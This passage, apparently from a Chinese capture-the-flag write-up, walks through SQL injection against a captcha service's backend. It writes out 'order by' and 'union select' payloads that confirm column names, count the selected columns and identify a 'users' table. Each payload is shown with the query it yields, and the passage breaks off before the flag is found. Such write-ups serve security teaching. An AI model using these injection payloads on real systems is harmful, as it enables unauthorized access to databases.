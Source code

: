 |6|OP-9|9|

接下来，试探数据表的结构。

首先，探测 `?用户名?` `?风险等级?` 两列的名称，根据经验和 Python 代码可以猜测是 `username` 和 `riskness`。注入：

```plain
Simple-1' order by username --
Simple-1' order by riskness --
```

分别得到

```sql
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' order by username -- '
select ?风险等级...? from ?数据表? where ?用户名? = 'Simple-1' order by riskness -- '
```

两次注入均得到纯数字验证码。看来，`username` 和 `riskness` 是存在的。接下来，判断 `select` 究竟选中了几列。

```plain
Simple-1' union select '1', '1' --
Simple-1' union select '1' --
```

```sql
select ?风险等级...? from ?数据表? where username = 'Simple-1'
  union select '1', '1' -- '
select ?风险等级...? from ?数据表? where username = 'Simple-1'
  union select '1' -- '
```

提示：`union` 是将两次 `select` 的结果连接起来，只有列数一样才可以连接（不要求数据类型一样）。

结果只有后者给出了纯数字验证码，前者因为出错给出了最难的验证码。这表明 `select` 操作只选择了一列。这一列只能是 `riskness`。

最后，数据表名称。猜测 `users`。

```plain
Simple-1' union select '1' from users
```

```sql
select riskness from ?数据表? where username = 'Simple-1'
  union select '1' from users -- '
```

好的，没有问题！最后验证 `users` 是否就是这张数据表。

```plain
Simple-1' and 1=0 union select riskness from users where username = 'Simple-1' --
```

```sql
select riskness from ?数据表? where username = 'Simple-1'
  union select riskness from users where username = 'Simple-1' -- '
```

也没问题。这就完全没有疑虑了。现在数据表的结构已经摸清楚了。

那么 flag 在哪呢？估计有两种可能，并适当猜测：
